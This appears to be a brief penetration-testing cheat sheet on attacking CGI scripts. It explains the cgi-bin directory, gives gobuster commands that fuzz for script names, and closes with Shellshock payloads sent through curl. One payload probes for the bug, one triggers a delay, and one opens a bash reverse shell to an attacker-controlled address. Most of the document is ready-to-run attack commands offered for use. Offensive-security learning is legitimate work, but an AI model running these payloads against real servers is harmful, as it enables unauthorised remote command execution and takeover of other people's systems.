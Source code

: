 ## /cgi-bin/

Common Gateway Interface (CGI) is an interface specification for web servers to execute command-line interface (CLI) programs. These programs also known as CGI scripts or simply CGIs, are commonly executed at the time a request is made and return dynamically generated HTML content.

Most servers expect CGI scripts to reside in a special directory, usually called cgi-bin, to handle the requests correctly and execute the program instead of returning the file content. 1

A scripts in /cgi-bin/ may have extensions cgi, sh, pl, py.
```
gobuster fuzz -u http:/<IP>/cgi-bin/FUZZ.sh -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -b 404
gobuster fuzz -u http:/<IP>/cgi-bin/FUZZ.cgi -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -b 404
gobuster fuzz -u http:/<IP>/cgi-bin/FUZZ.pl -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -b 404
gobuster fuzz -u http:/<IP>/cgi-bin/FUZZ.py -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -b 404
```

## Shellshock
https://0xffsec.com/handbook/web-applications/cgi/

```
curl -fs -H "user-agent: () { :; }; echo; echo 'vulnerable'" http://<IP>/cgi-bin/vulnerable | grep vulnerable
curl -fs -H "user-agent: () { :; }; /bin/bash -c 'sleep 5'" http://<IP>/cgi-bin/vulnerable
curl -fs -H "user-agent: () { :; }; /bin/bash -i >& /dev/tcp/<KALI IP>/1234 0>&1" http://<IP>/cgi-bin/vulnerable
```
